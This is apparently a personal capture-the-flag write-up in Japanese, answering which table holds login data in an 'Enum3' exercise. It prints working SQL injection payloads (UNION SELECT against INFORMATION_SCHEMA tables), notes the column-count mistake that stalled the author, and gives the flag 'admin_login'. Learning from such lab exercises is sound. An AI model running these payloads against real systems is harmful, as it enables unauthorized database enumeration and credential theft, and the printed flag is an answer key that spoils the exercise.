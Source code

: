 ## Enum3で発見した脆弱性を利用して、ログインに必要な情報が格納されていると推測できるテーブル名を解答してください。  
  
  うわ、でた  
  'information schema'みるやつや  
  もはや綴りがあっているかすら怪しい、、、  
  そしてつまる、、、  
    
結果として実行した`injection`は以下、  
```bash
' OR 'a' = 'a' UNION SELECT TABLE_NAME,COLUMN_NAME,null FROM INFORMATION_SCHEMA.COLUMNS ;

```
  
思考としては、`INFORMATION_SCHEMA`の`Tables`か`Columns`のどっちかははっきり覚えてなかったが、まぁまずどっちかだろうという推測はすぐに立ったのだが、↓のような構文をずっと実行していて何も出力しなくて詰まってしまった。  
  
```bash
' OR true UNION SELECT * FROM INFORMATION_SCHEMA.TABLES ;
' OR true UNION SELECT table_name FROM INFORMATION_SCHEMA.TABLES ;  

```
  
`select`の`column`の数を合わせるということを完全に失念しておった。。。  
おそらく気づくのに３０分は要したな。。。  
まぁこれで***１０回死んでも忘れなくなった***のでよしとしよう  
  
### コマンド
`' OR 'a' = 'a' UNION SELECT TABLE_NAME,COLUMN_NAME,null FROM INFORMATION_SCHEMA.COLUMNS ;`  
  
### フラグ  
`admin_login`  
  
  
